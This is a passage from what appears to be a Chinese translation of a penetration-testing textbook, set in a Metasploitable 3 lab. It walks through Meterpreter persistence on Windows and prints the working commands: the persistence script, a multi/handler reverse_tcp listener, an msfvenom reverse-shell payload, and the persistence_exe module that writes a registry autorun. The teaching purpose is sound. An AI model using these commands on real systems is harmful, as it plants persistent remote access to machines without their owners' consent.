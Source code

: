 图 1：Meterpreter 持久性脚本选项

有一个警告通知我们 Meterpreter 脚本已被弃用，我们应该使用`/post/windows/manage/persistence_exe`。现在，让我们坚持使用弃用的脚本。

要获得持久性 shell，我们可以使用`run persistence -U -i [seconds] -p [port] -r [host]`命令。

这个命令让代理在用户登录时启动（`-U`）。我们以秒为单位定义间隔（`-i`）；我们定义远程端口（`-p`），然后是要连接回的主机（`-r`）。一旦脚本运行，我们将看到已设置一个注册表键，并且已使用`.vbs`文件设置了持久性：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest/img/4ff054e5-614f-4266-acc2-1d9858fb6bfd.png)

图 2：使用 Meterpreter 脚本设置持久性

安装了持久性脚本后，shell 将在用户每次登录时重新建立。但是，我们还需要做一件事，那就是创建一个处理程序。这个处理程序将监听连接并创建远程会话。

可以使用以下命令设置一个简单的处理程序：

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [IP]
set LPORT [PORT]
exploit
```

请记住，`LHOST`是持久性脚本中使用的相同 IP 地址，`LPORT`也是在该脚本中定义的相同端口。一旦执行了这些命令，反向处理程序就会启动：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest/img/439dc434-00c2-45a9-be39-4cd31d8ee1e8.png)

图 3：在 Metasploit 中创建处理程序

现在，你已经为远程 shell 连接做好了一切准备，即使目标系统已经重启。你可以通过重新启动 Metasploitable 3 虚拟机来测试这一点。一旦机器启动并有用户登录，meterpreter 会话将建立连接。

让我们看一下 meterpreter 之前提到的推荐的后置模块。为了使用`/post/windows/manage/persistence_exe`，你需要创建一个有效载荷。我使用 MSFvenom 创建了一个简单的有效载荷。

在上面的屏幕截图中，用于创建在之前屏幕截图中看到的`payload.exe`文件的命令是`msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=1338 -f exe -o /root/Desktop/payload.exe`。请注意端口号——它与我们之前使用的不同。

一旦生成了有效载荷，你可以在 Meterpreter 会话中使用以下命令：

```
run post/windows/manage/persistence_exe REXEPATH=/root/Desktop/payload.exe
```

`REXEPATH`用于定义你在 Kali 环境中创建的有效载荷的位置。`STARTUP`用于定义启动类型（`User`、`System`或`Service`）；这将决定使用哪个注册表键。一旦输入了上述命令，Metasploit 将执行持久性攻击，并在注册表中创建一个自动运行，如下面的屏幕截图所示：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest/img/8cbb70a3-9617-4f03-b319-36bd6f0e9d30.png)

图 4：使用恶意有效载荷的持久性

一旦完成这些操作并退出 Meterpreter 会话，创建一个新的处理程序。记得定义一个不同的端口号。

在以下的屏幕截图中，请注意我建立的两个会话：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest/img/247fb37e-c99b-4e4d-973e-9341b35f7864.png)

图 5：使用 Meterpreter 建立会话
